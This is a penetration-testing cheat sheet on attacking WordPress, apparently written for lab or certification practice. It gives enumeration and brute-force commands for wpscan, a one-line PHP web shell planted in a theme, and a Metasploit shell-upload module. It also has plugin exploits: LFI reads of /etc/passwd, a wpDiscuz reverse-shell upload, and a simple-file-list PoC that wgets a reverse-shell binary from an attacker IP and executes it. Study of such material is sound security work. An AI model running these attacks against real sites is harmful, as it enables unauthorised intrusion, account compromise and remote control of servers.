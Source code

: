# WordPress

## General

{% hint style="info" %}
[WordPress Vulnerability Statistics](https://wpscan.com/statistics/)
{% endhint %}

```shell
# Web root
/wp-admin
    admin.php
/wp-content
    /themes
    /plugins
/wp-includes
index.php
license.txt
readme.html
wp-activate.php
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-cron.php
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
.htaccess
wp-config.php # database info
```

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Enumeration

{% tabs %}
{% tab title="Manual" %}
{% code overflow="wrap" %}
```bash
# Version
curl -s example.com | grep '<meta name="generator"'

# Themes
curl -s example.com | grep themes

# Plugins
curl -s example.com | grep plugins
sudo wpscan -t 20 --url http://readys -e ap --plugins-detection aggressive

# Plugin version (requires Directory listing to be enabled)
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}

{% tab title="wpscan" %}
[WPScan](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation) is a free, Ruby-based WordPress security scanner that performs black-box testing to identify vulnerabilities in WordPress core, plugins, themes, and user configurations.

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

{% code overflow="wrap" %}
```bash
# Update database
wpscan --update

# General enumeration
sudo wpscan --url example.com --enumerate --api-token <TOKEN>

# Modify agent for WAF evasion
sudo wpscan --url example.com --enumerate --api-token <TOKEN> --random-user-agent
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Attacks

### BFA

`wp-login.php` is the standard login form that accepts one login attempt per request. `xmlrpc.php` allows login via API calls and can bundle many attempts in one request, making brute-force faster. Even if `wpscan` outputs that XML-RPC is enabled, login-related methods may be blocked by plugins or server settings, so attacks through it can fail while `wp-login` attacks still work.

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) → uses WP's API to BF (`xmlrpc.php`) (faster)
2. wp-login → attempts to BF `wp-login.php`&#x20;

{% code overflow="wrap" %}
```bash
# Enumerating users and brute-forcing
sudo wpscan --url example.com -e u --passwords password.lst

# Targeted BFA using xmlrpc
sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou

# Targeted BFA using wp-login
sudo wpscan --password-attack wp-login -t 20 --url http://example.com -U james -P cewl_tokens.txt
```
{% endcode %}

### RCE

{% tabs %}
{% tab title="Manual" %}
Modify an inactive theme (for avoiding breaking the site) by inserting a PHP web shell:&#x20;

```php
<?php system($_GET['c']); ?>
```

<figure><img src="../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

The same exact method can be done with Plugins:

{% hint style="warning" %}
Remeber to activate the plugin after: _Plugins_ → _Installed Plugins_ → _Activate_.
{% endhint %}

<figure><img src="../../.gitbook/assets/wp_rce_2.png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="MSF" %}
MSF's [`wp_admin_shell_upload`](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module can be used:

```bash
# use module (make sure to set VHOST if needed)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

## Plugins

{% tabs %}
{% tab title="mail-masta" %}
No longer supported:

* [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438)
* [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

{% code overflow="wrap" %}
```php
<?php 

include($_GET['pl']); # no validation/sanitization
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
{% endcode %}

{% code overflow="wrap" %}
```shell
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="wpDiscuz" %}
wpDiscuz version `7.0.4` contains a **file upload vulnerability** **that can lead to unauthenticated remote code execution** ([CVE-2020-24186](https://nvd.nist.gov/vuln/detail/CVE-2020-24186)). Although the plugin is meant to accept only image attachments in comments, its MIME type validation can be bypassed, allowing a PHP file to be uploaded and executed. Exploitation requires a valid post with comments enabled.

```bash
# Add the magic byte of GIF and upload the reverse shell
GIF89a;
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```

The [PoC](https://www.exploit-db.com/exploits/49967) takes two arguments: `-u` for the target URL and `-p` for the path to a comment-enabled post. Once executed, the script uploads the payload and returns the file path for remote code execution.

{% hint style="warning" %}
The default PoC may fail, but `curl` can be used to interact with the uploaded webshell.
{% endhint %}

{% code overflow="wrap" %}
```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...

$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}
{% endtab %}

{% tab title="simple-file-list" %}
Simple File List plugin < `4.2.3` is vulnerable to an **unauthenticated RCE** flaw ([CVE-2025-34085](https://nvd.nist.gov/vuln/detail/CVE-2025-34085/change-record?changeRecordedOn=07/16/2025T12:15:26.130-0400)). Despite being designed to allow file uploads, the plugin fails to properly validate files after they are renamed. An attacker can upload a file with a benign extension (e.g., `.png`) that actually contains PHP code. Using a vulnerable script within the plugin, the file can then be renamed to `.php` and accessed directly, resulting in full remote code execution. The available [PoC](https://github.com/B1ack4sh/Blackash-CVE-2025-34085) allows direct RCE via the `--cmd` parameter:&#x20;

{% code overflow="wrap" %}
```bash
# Transfer a reverse shell payload
$ python3 CVE-2025-34085.py -u http://nukem --cmd "wget http://192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Make the file executable
$ python3 CVE-2025-34085.py -u http://nukem --cmd "chmod +x /tmp/revshell.elf"

# Execute the file
$ python3 CVE-2025-34085.py -u http://nukem --cmd "/tmp/revshell.elf"
```
{% endcode %}
{% endtab %}

{% tab title="Site Editor" %}
The Site Editor plugin, up to version `1.1.1`, is vulnerable to an unauthenticated LFI flaw ([CVE-2018-7422](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422)) via the `ajax_path` parameter in the `ajax_shortcode_pattern.php` script, part of its PageBuilder extension. This endpoint fails to sanitize input, allowing attackers to include arbitrary files using absolute paths.

{% code overflow="wrap" %}
```bash
$ searchsploit WordPress Site Editor
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion | php/webapps/44340.txt

$ curl -s --path-as-is "http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd"
```
{% endcode %}
{% endtab %}
{% endtabs %}
